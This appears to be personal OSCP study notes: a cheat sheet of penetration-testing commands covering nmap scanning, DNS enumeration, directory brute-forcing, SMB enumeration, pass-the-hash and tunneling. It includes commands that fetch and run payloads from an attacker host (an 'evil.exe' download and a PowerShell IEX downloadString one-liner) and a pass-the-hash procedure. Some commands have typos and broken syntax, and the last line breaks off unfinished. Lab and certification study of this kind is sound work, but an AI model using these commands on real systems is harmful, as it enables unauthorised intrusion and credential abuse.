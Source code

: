 # OSCP Notes

------------------------------------------------------------

Recon:
------------------------------------------

nmap -sC -sV -oA nmap/"host" <IP>

nmap -Pn -p- --open -v <IP>

nmap --script vuln -p <PORTS> <IP>

**DNS Enumeration:**
------------------------------------------

host -t ns/mx <domain name.com>

Forward DNS lookup:
------------------------------------------

for name in $(cat list.txt);do
    host $name.DOMAIN.com |grep "has address" |cut -d" " -f1,4
done

Reverse DNS lookup:
------------------------------------------

for ip in $(seq 1 254);do
    host 10.11.1.$ip |grep "domain" |cut -d" " -f1,5
done

DNS zone Transfer:
------------------------------------------

host -l <DOMAIN NAME> <NAME SERVER>


SMTP User Enumeration:
------------------------------------------

See /opt/scripts for vrfy.py

Directory brute-force:
------------------------------------------

gobuster dir -u http:// -w /usr/share/seclist/Discovery/Web-Content/common.txt -t50 (-k to ignore ssl)

gobuster dir -u http:// -w /usr/share/wordlist/dirbuster/directory-list2.3-medium -t50 (-k to ignore ssl)


File transfer methods:
------------------------------------------

cscript wget.vbs(Echo the file to the victim machine) http://10.1.2.111:8000/evil.exe evil.exe

IEX(New-Object Net.Webclient)downloadString(http://x.x.x.x/file)


SMB
------------------------------------------

smbclient -L <IP> # to list shares

smbclient //x.x.x.x/sharename # to log into the share

smbmap -H <IP> # to list shares and display read/write permissions.

PASS The HASH
------------------------------------------

1 .Take the NTLM hash and export it as:

export SMBHASH=<<<<<<<<<<<<<<NTLM_HASH_HERE>>>>>>>>>>>>>>>>>>

2 .run the command:

pth-winexe -U <USER> % //x.x.x.x cmd
    

Tunneling
------------------------------------------

Windows Tunneling via plink:

plinl <REMOTE_USER> -pw <REMOTE_PASSWORD> -R <REMOTE_PORT>








    




